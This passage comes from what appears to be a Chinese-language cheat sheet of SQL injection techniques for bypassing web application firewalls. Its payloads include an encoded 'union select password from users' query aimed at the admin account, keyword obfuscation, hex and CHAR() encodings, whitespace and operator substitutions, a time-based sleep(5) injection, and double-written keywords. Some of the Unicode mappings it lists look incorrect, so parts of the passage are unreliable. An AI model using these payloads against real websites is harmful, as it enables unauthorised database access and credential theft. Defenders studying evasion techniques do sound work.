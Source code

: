 ```
对关键字进行两次url全编码：1+and+1=21+%25%36%31%25%36%65%25%36%34+1=2 

/**/union/**/select/**/password/**/from/**/users/**/where/**/username/**/like/**/'admin'#%252f%252a*/union%252f%252a*/select%252f%252a*/password%252f%252a*/from%252f%252a*/users%252f%252a*/where%252f%252a*/username%252f%252a*/like%252f%252a*/'admin'#
或ex\u0065c => exec


ascii编码
Test 等价于CHAR(101)+CHAR(97)+CHAR(115)+CHAR(116)

16进制
select * from users where username = test1;
select * from users where username = 0x7465737431;

unicode编码对部分符号的绕过
单引号=> %u0037 %u02b9
空格=> %u0020 %uff00
左括号=> %u0028 %uff08
右括号=> %u0029 %uff09
```

#### 空格绕过

一般绕过空格过滤的方法有以下几种方法来取代空格

```
/**/
()
回车(url编码中的%0a)
`(tab键上面的按钮)
tab
```

#### or and xor not 绕过

```
or = ||
and = &&
xor = | 或者 ^ # 异或,例如Select * from cms_users where userid=1^sleep(5);
not = !
```

#### 双写绕过

在某一些简单的waf中，会将关键字select等使用replace()函数置换为空。当关键词被过滤时可以采用双写的方式，在经过waf的处理之后又变成select，达到绕过的要求。

```
and写成anandd
select写成seleselectct
```

#### 大小写变种

当关键词被过滤时，可尝试变换大小写进行绕过。
